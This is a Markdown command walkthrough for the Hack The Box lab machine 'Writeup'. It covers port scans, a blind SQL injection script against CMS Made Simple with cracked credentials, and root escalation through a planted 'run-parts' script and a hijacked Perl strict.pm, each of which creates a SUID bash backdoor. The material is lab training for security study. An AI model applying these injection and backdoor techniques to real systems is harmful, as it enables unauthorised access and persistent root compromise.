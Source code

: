 Here's a **Markdown-formatted command reference** for the HTB machine **Writeup**, structured by phase with explanatory notes and clean formatting:

---

# 🧭 HTB: Writeup – Command Walkthrough

## 📌 Box Info
- **IP**: `10.10.10.138`
- **OS**: Linux (Debian-based)
- **Difficulty**: Easy
- **Initial Access**: Blind SQLi in CMS Made Simple
- **Privilege Escalation**: PATH hijack via `run-parts`
- **Extras**: Perl module hijack (Beyond Root)

---

## 🔎 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
```

### 🔍 Targeted Service & Script Scan
```bash
nmap -p 22,80 -sV -sC -oA scans/nmap_scripts 10.10.10.138
```

### 📄 robots.txt Discovery
```bash
curl http://10.10.10.138/robots.txt
```

---

## 🐚 Shell as jkr

### 💉 SQL Injection Exploit (Blind SQLi)
```bash
./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

### 🔑 Output Credentials
```
Username: jkr
Password: raykayjay9
```

### 🔐 [SSH](SSH) Login
```bash
ssh jkr@10.10.10.138
```

---

## 🔼 Privilege Escalation (jkr → root)

### 👥 Check Groups
```bash
id
```

### 📂 Writable Directories
```bash
ls -ld /usr/local/bin/ /usr/local/sbin/
```

### 🔍 Watch Processes with pspy
*(Upload and run `pspy`)*
```bash
./pspy64
```

### 🪤 Hijack `run-parts` in PATH
```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/0xdf\nchmod u+s /bin/0xdf' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

### 🔁 Reconnect to Trigger Payload
```bash
ssh jkr@10.10.10.138
```

### 🔓 Run Backdoored Bash
```bash
/bin/0xdf -p
```

---

## 🧠 Beyond Root – Perl Module Hijack

### 📂 Check Default Perl Modules
```bash
perl -MData::Dumper -e 'print Dumper \%INC'
```

### 📍 Print Perl Include Path
```bash
perl -e 'print join(":",@INC)'
```

### 📁 Create Writable Perl Include Directory
```bash
mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
```

### 📄 Copy and Modify `strict.pm`
```bash
cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/
```

Edit `/usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm` and insert:
```perl
system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
```

### 🧪 Trigger Again via SSH
```bash
ssh jkr@10.10.10.138
/bin/0xdf -p
```